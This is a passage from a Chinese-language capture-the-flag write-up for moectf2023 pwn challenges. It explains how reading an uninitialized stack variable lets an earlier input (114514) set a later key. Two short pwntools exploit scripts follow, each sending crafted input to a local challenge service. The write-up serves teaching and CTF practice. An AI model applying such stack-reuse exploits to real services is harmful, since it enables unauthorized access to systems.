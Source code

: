 两个函数差不多，根据栈的运行机制，age和key都分配在栈上，函数结束释放内存时只会将rsp的值加回来，不会改变栈上的值，故只用在第一次get_name时输入114514，第二次输入a（非法数字）时，key的值就是栈上原来age的值，即114514。exp：

```python
from pwn import *

context(os="linux", arch="amd64") 
parent_path = "/home/user/tmp/"
sh = remote("localhost", 36865)

sh.sendline(b'114514')
sleep(2)
sh.sendline(b'a')
sh.interactive()
```



## uninitialized_key_plus

用IDA打开文件，发现get_name函数与之前不一样，现在是输入一个字符串：

![image-20230822150934613](./moectf2023-pwn-wp.assets/image-20230822150934613.png)



和之前差不多，只不过现在是要把name的最后4个字节改成114514，exp如下：

```python
from pwn import *

context(os="linux", arch="amd64") 
parent_path = "/home/user/tmp/"
sh = remote("localhost", 36865)

sh.sendline(b'a' * 20 + p32(114514))
sleep(2)
sh.sendline(b'a')
sh.interactive()
```
